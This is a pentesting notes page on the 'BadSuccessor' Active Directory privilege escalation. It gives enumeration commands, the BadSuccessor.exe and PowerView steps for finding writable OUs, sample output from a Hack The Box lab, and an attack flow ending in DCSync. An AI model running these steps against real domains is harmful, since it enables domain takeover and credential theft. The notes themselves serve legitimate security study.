

repository: amandaguglieri/hackinglife · page: badsuccessor/index.html · generator: mkdocs

---
title: BadSuccessor - Windows Privilege Escalation
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - windows
  - privilege
  - escalation
  - tools
---

# BadSuccessor - Windows Privilege Escalation

Sources:

- https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory
- https://github.com/ibaiC/BadSuccessor


## Enumerating


```
########################################
# Check OS version (CRITICAL trigger)
########################################
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" | 
Select-Object ProductName, CurrentVersion, CurrentBuild, ReleaseId
```

Look for: Windows Server 2025 + Build 26100

## Requirements

```
########################################
# Required privileges
########################################

- GenericWrite OR GenericAll on an OU
- OR CreateChild on an OU
- Domain user credentials
```


Find Writable OUs

```
.\BadSuccessor.exe find

# Example:
Evil-WinRM* PS C:\Users\adam.scott\Documents> .\BadSuccessor.exe find
 ______           __ _______
|   __ \ .---.-.--|  |     __|.--.--.----.----.-----.-----.-----.-----.----.
|   __ < |  _  |  _  |__     ||  |  |  __|  __|  -__|__ --|__ --|  _  |   _|
|______/ |___._|_____|_______||_____|____|____|_____|_____|_____|_____|__|

Researcher: @YuG0rd
Author: @kreepsec


[*] OUs you have write access to:
    -> OU=Domain Controllers,DC=eighteen,DC=htb
       Privileges: GenericWrite, GenericAll
    -> OU=Staff,DC=eighteen,DC=htb
       Privileges: GenericWrite, GenericAll, CreateChild
```

Alternative, PowerView.ps1

```
Import-Module .\PowerView.ps1

Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs |
? { $_.IdentityReference -match "<USER>" -and $_.ActiveDirectoryRights -match "Write|CreateChild" }
```


## Attack

Exploitation Flow:

User → Writable OU → Create dMSA → Link to Administrator → Kerberos abuse → DCSync
